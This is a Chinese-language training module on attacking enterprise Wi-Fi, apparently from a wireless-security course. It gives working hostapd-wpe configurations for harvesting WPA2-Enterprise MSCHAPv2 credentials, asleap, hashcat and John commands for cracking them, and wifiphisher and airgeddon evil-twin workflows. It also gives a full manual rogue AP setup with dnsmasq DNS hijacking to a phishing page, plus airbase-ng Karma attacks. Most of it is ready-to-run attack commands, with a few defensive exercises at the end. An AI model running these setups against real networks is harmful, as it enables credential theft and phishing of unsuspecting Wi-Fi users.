



# 模块06：企业无线攻击与Rogue AP

> **学习目标**：掌握WPA2-Enterprise攻击、Rogue AP搭建和钓鱼WiFi技术
> **所需工具**：hostapd-wpe, asleap, wifiphisher, airgeddon, airmon-ng, airbase-ng

## 目录

- [[#一、WPA2-Enterprise概述|WPA2-Enterprise概述]]
- [[#二、Hostapd-WPE企业凭证收割|Hostapd-WPE]]
- [[#三、Asleap凭证破解|Asleap凭证破解]]
- [[#四、Wifiphisher钓鱼攻击|Wifiphisher]]
- [[#五、Airgeddon Evil Twin|Airgeddon Evil Twin]]
- [[#六、手动Rogue AP搭建|手动Rogue AP]]
- [[#七、Karma攻击|Karma攻击]]
- [[#八、实践操作|实践操作]]

---

## 一、WPA2-Enterprise概述

### 1.1 WPA2-Enterprise vs WPA2-Personal

| 特性 | WPA2-Personal (PSK) | WPA2-Enterprise |
|------|---------------------|-----------------|
| 认证方式 | 预共享密钥 | RADIUS + 802.1X |
| 密钥 | 所有人同一PSK | 每人独立凭据 |
| 适用场景 | 家庭、小型办公 | 企业、教育、政府 |
| 攻击难度 | 字典破解 | 凭证窃取/中继 |
| 攻击隐蔽性 | 完全被动 | 需要Rogue AP交互 |

### 1.2 802.1X/EAP认证体系

```
Supplicant(客户端) <-> Authenticator(AP) <-> Authentication Server(RADIUS)
```

EAP方法类型：

| EAP方法 | 安全性 |
|---------|--------|
| EAP-MD5 | 最弱，仅MD5挑战响应，可离线破解 |
| LEAP | Cisco专用，已破解，ASLEAP工具可恢复密码 |
| EAP-TLS | 最强，双向证书认证，需PKI |
| PEAP | 服务器证书+内部MSCHAPv2，可被降级攻击 |
| EAP-TTLS | 类似PEAP，可配置不同内部认证方式 |
| EAP-FAST | Cisco PEAP替代，PAC文件保护 |

### 1.3 PEAP/MSCHAPv2攻击原理



攻击原理：
1. 攻击者搭建Rogue AP，使用相同的SSID
2. 攻击者的AP发送自己的RADIUS服务器证书
3. 如果客户端不验证证书 → 连接
4. 攻击者在TLS隧道内获取MSCHAPv2凭证
5. 离线破解MSCHAPv2获取明文密码

---

## 二、Hostapd-WPE企业凭证收割

### 2.1 hostapd-wpe简介

hostapd-wpe是hostapd的修改版(WPE = Wireless Pwnage Edition)，专门设计用于攻击WPA2-Enterprise网络。

核心功能：
- 搭建Rogue AP
- 自动收割EAP凭证
- 支持多种EAP类型
- 集成asleap/crack攻击
- 支持Karma攻击(响应所有Probe Request)

### 2.2 基础配置

```bash
cat > /tmp/hostapd-wpe.conf << 'EOF'
interface=wlan1
ssid=CorporateWiFi
channel=6
hw_mode=g

# WPA2-Enterprise
wpa=2
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP

# EAP配置
eap_server=1
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ca_cert=/etc/hostapd-wpe/certs/ca.pem
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server.key

# 日志
logger_syslog=-1
logger_syslog_level=2
logger_stdout=-1
logger_stdout_level=2
EOF

sudo hostapd-wpe /tmp/hostapd-wpe.conf
```

### 2.3 凭证收割日志分析

当有客户端连接时，日志输出关键数据：
- **username**：域用户名
- **challenge**：MSCHAPv2质询
- **response**：MSCHAPv2响应(加密后的凭证)
- **JTR format**：可用于John the Ripper破解
- **hashcat format**：可用于hashcat破解

### 2.4 破解收割的凭证

```bash
# 方法1：asleap
asleap -r capture.pcap -W wordlist.txt
asleap -C challenge -R response -W wordlist.txt

# 方法2：John the Ripper
john --wordlist=rockyou.txt hash.txt

# 方法3：hashcat
hashcat -m 5500 hash.txt rockyou.txt

# 方法4：chapcrack
chapcrack -i capture.pcap
```

### 2.5 Karma攻击配置

hostapd-wpe自动启用Karma模式，响应所有Probe Request：
```bash
cat > /tmp/hostapd-wpe-karma.conf << 'EOF'
interface=wlan1
ssid=internet
channel=6
hw_mode=g
wpa=2
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP
eap_server=1
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ca_cert=/etc/hostapd-wpe/certs/ca.pem
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server.key
EOF
```

---

## 三、Asleap凭证破解

### 3.1 asleap简介

asleap专门针对Cisco LEAP协议和MS-CHAPv2的破解工具。

LEAP漏洞：
- LEAP使用MS-CHAPv2进行认证
- 挑战-响应机制公开
- 弱密码可被字典攻击破解
- NT Hash最后一字节总是0x00(7字节强制对齐)

### 3.2 基本使用

```bash
# 从pcap文件提取并破解LEAP
asleap -r capture.pcap -W rockyou.txt

# 仅提取所有LEAP挑战(不破解)
asleap -r capture.pcap

# 破解MS-CHAPv2
asleap -C a1b2c3d4e5f6g7h8 -R 11223344556677889900aabbccddeeff1122 -W rockyou.txt

# 导出为hashcat格式
asleap -r capture.pcap -f rockyou.txt -G hash.txt
hashcat -m 5500 hash.txt rockyou.txt
```

---

## 四、Wifiphisher钓鱼攻击

### 4.1 wifiphisher原理



### 4.2 基本使用

```bash
sudo wifiphisher
```

交互流程:
1. 选择无线接口
2. 选择攻击模式：
   - Network Manager (仿路由器管理)
   - Firmware Update (仿固件升级)
   - OAuth Login (仿社交登录)
3. 选择目标WiFi网络
4. 自动启动攻击

### 4.3 高级参数

```bash
# 指定接口和ESSID
sudo wifiphisher -i wlan0 -e TargetWiFi

# 指定钓鱼场景
sudo wifiphisher -p firmware-upgrade

# 自动模式(跳过交互)
sudo wifiphisher --essid TargetWiFi -p firmware-upgrade -aI wlan0 -jI wlan1
```

参数详解:
- `-i <iface>`：无线接口(用于Rogue AP)
- `-e <ESSID>`：目标网络名
- `-p <scenario>`：钓鱼场景
- `-jI <iface>`：干扰接口(用于Deauth)
- `-aI <iface>`：AP接口

---

## 五、Airgeddon Evil Twin

### 5.1 airgeddon简介

airgeddon是Bash编写的多用途无线安全审计框架。

支持的攻击方式:
- WPA/WPA2握手捕获和破解
- WPS PIN攻击(reaver + bully集成)
- PMKID攻击(hcxdumptool集成)
- Evil Twin攻击(Rogue AP)
- DoS攻击(Deauth/Disassociation)
- 企业WiFi攻击

### 5.2 启动和配置

```bash
sudo airgeddon
```

首次启动：
- 选择语言
- 检查依赖工具
- 自动安装缺失的工具
- 选择无线接口

### 5.3 Evil Twin攻击流程

菜单路径: 5 → 5.3 (Evil Twin)

步骤：
1. airgeddon扫描目标AP
2. 记录目标BSSID、信道、加密方式
3. 发送Deauth使客户端断开
4. 启动Rogue AP(相同SSID，开放网络)
5. 启动DHCP/DNS服务器(dnsmasq)
6. 启动Captive Portal(钓鱼登录页)
7. 当受害者连接后，自动跳转到钓鱼页
8. 收割密码 → 记录到日志
9. 显示密码后关闭Rogue AP

支持的Captive Portal模板：
- 路由器管理页面
- 运营商登录页
- Google/Facebook OAuth
- 自定义模板

---

## 六、手动Rogue AP搭建

### 6.1 基础Rogue AP(无DHCP)

```bash
cat > /tmp/rogue_ap.conf << 'EOF'
interface=wlan1
driver=nl80211
ssid=FreeWiFi
hw_mode=g
channel=6
EOF
sudo hostapd /tmp/rogue_ap.conf
```

### 6.2 完整Rogue AP+DHCP+DNS(钓鱼链路)

```bash
# Step 1: 配置网络接口
sudo ip addr add 10.0.0.1/24 dev wlan1
sudo ip link set wlan1 up

# Step 2: dnsmasq配置
cat > /tmp/dnsmasq.conf << 'EOF'
interface=wlan1
dhcp-range=10.0.0.10,10.0.0.100,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
address=/#/10.0.0.1
server=8.8.8.8
EOF
sudo dnsmasq -C /tmp/dnsmasq.conf -d

# Step 3: 启动AP
sudo hostapd /tmp/rogue_ap.conf

# Step 4: 允许IP转发和NAT
sudo sysctl net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables -A FORWARD -i wlan1 -o eth0 -j ACCEPT
sudo iptables -A FORWARD -i eth0 -o wlan1 -m state --state RELATED,ESTABLISHED -j ACCEPT

# Step 5: 启动Web服务器(钓鱼页面)
sudo python3 -m http.server 80
```

### 6.3 airbase-ng搭建Rogue AP

```bash
sudo airbase-ng -e "FreeWiFi" -c 6 wlan0mon
```

参数：
- `-e "SSID"`：AP名称
- `-c 6`：信道
- `-a <MAC>`：设置BSSID
- `-P`：响应所有Probe Request(Karma模式)
- `-C 30`：信标发送间隔(毫秒)

创建虚拟接口后配置：
```bash
sudo ifconfig at0 10.0.0.1 netmask 255.255.255.0 up
sudo dnsmasq -i at0 --dhcp-range=10.0.0.10,10.0.0.100
```

---

## 七、Karma攻击

### 7.1 Karma原理



### 7.2 airbase-ng Karma模式

```bash
sudo airbase-ng -P -C 30 -e "FreeWiFi" wlan0mon
# -P 开启Karma模式: 响应所有Probe Request
```

### 7.3 Karma的影响范围

- 几乎所有手机/笔记本都受影响
- 自动WiFi连接设备最容易受害
- 物联网设备特别脆弱
- 手机自动发送Probe Request包含历史WiFi名单

---

## 八、实践操作

### 8.1 hostapd-wpe搭建企业Rogue AP

```bash
# 安装
sudo pacman -S hostapd-wpe

# 生成证书
cd /etc/hostapd-wpe/certs
sudo ./bootstrap

# 创建配置并启动
sudo hostapd-wpe /tmp/hostapd-wpe.conf

# 用另一设备连接 → 观察日志中的凭证
```

### 8.2 Wifiphisher实操

```bash
sudo airmon-ng start wlan0
sudo wifiphisher
# 选择接口 → 选择钓鱼场景 → 选择目标WiFi
# 观察：Deauth → Rogue AP启动 → 钓鱼页面 → 密码收割
```

### 8.3 Airgeddon Evil Twin

```bash
sudo airgeddon
# 接口配置 → Scan networks → 选择目标
# Attack menu → Evil Twin attack → 选择Captive Portal类型
```

### 8.4 手动完整Rogue AP

```bash
# 按照6.2的完整步骤搭建
# 用手机连接Rogue AP验证：
# - 应能获取IP(10.0.0.x)
# - DNS应全部解析到10.0.0.1
# - 使用bettercap进行中间人攻击
sudo bettercap -iface wlan1
```

### 8.5 Karma攻击体验

```bash
sudo airbase-ng -P -C 30 -e "FreeWiFi" wlan0mon
# 观察手机自动显示的WiFi列表
# 对每个Probe Request都回复Probe Response
```

---

## 课后练习

1. 搭建hostapd-wpe并尝试收割自己的测试凭证
2. 对比wifiphisher和airgeddon的Evil Twin攻击流程
3. 研究PEAP证书验证缺失的防御方法
4. 使用Wireshark分析一次完整的EAP-MSCHAPv2认证流程
5. 用asleap尝试破解MSCHAPv2凭证
6. 手动搭建完整Rogue AP环境(hostapd + dnsmasq)
7. 研究如何在企业网络中检测Rogue AP
8. 了解802.11w (PMF)如何防御Deauth攻击

---

> **相关模块**：[[04-WPA-WPA2破解|WPA2破解]] | [[05-WPS攻击|WPS攻击]] | [[07-无线安全综合实战|综合实战]]

[[../总目录与快速查询|← 返回总目录]]
